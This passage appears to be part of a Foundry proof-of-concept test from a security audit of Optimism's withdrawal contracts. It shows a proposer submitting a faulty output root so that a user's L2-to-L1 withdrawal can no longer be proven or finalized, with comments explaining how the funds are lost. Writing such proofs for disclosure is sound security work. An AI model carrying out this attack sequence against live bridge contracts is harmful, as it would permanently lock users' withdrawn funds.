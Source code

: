 ```solidity
        // The honest proposer submits the root for both outputs at the same time
        // If the honest tries to set the tx's transaction to true at the outputIndex 0
        // the challenger can again challenge the state since that is not the correct state for 
        // that block height
        vm.startPrank(honestProposer); // Imagine another proposer comes and acts honestly
        l2OutputOracle.proposeL2Output( // This is a faulty output provided by the proposer
            dummyOutputRootHash,
            startBlock + submissionInterval, // l2BlockNumber
            bytes32(0),
            10
        );
        
        l2OutputOracle.proposeL2Output( // Now the _tx is included on the l2 chain
            outputRoot, // This time, the output root that is related to the tx is checkpointed one interval later
            startBlock + 2 * submissionInterval, // l2BlockNumber
            bytes32(0),
            10
        );
        vm.stopPrank();

        
        vm.startPrank(user); // Now the user wants to prove his transaction after the commitment is included

        /**
         * Now that the transaction is included at output index 1, and the tx hash is previously proven 
         * at index 0 output, the user can no longer prove the output
         */
        vm.expectRevert(); // FAIL. Reason: OptimismPortal: withdrawal hash has already been proven
        optimismPortal.proveWithdrawalTransaction( // Does not run because the attacker already proven a faulty withdrawl
            _tx,
            1,
            outputRootProof,
            proof
        );

        vm.warp(8 days);

        /**
         * Also the user can not finalize the withdrawl on the L1 since protocol is blocking the transaction out
         */
        vm.expectRevert(); // FAIL. Reason: OptimismPortal: output root proven is not the same as current output root
        optimismPortal.finalizeWithdrawalTransaction(_tx); // Does not run since the output root is different than the one that the transaction is proven with!

        vm.stopPrank();

        /**
         * At this point, the transaction can neither be proven or finalized by the user
         * no matter how much time goes by, the transaction is included on L2, but un-redeemable on L1
         * the value of bigValue and bigGasLimit are effectively gone!
         */
    }

    function mkaddr(string memory name) public returns (address) {
        address addr = address(uint160(uint256(keccak256(abi.encodePacked(name)))));
        vm.label(addr, name);
```
